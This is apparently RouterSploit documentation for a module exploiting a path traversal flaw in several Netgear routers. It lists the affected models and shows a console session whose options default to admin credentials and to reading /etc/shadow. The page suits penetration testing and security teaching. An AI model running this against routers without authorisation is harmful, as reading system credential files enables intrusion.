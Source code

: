 # Netgear WNR500/WNR612v3/JNR1010/JNR2010 Path Traversal

## Description
Module exploits Netgear WNR500/WNR612v3/JNR1010/JNR2010 Path Traversal vulnerability which allows to read any file on the system.

## Authors
* Todor Donev <todor.donev[at]gmail.com> # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [https://www.exploit-db.com/exploits/40737/](https://www.exploit-db.com/exploits/40737/)

## Vulnerable devices
* Netgear WNR500
* Netgear WNR612v3
* Netgear JNR1010
* Netgear JNR2010

## Usage
```
rsf > use exploits/netgear/wnr500_612v3_jnr1010_2010_path_traversal
rsf (Netgear WNR500/WNR612v3/JNR1010/JNR2010 Path Traversal) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target Port


Module options:

   Name         Current settings     Description
   ----         ----------------     -----------
   username     admin                Username to log in
   password     password             Password to log in
   filename     /etc/shadow          File to read


rsf (Netgear WNR500/WNR612v3/JNR1010/JNR2010 Path Traversal) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Netgear WNR500/WNR612v3/JNR1010/JNR2010 Path Traversal) > run
[*] Running module...
```

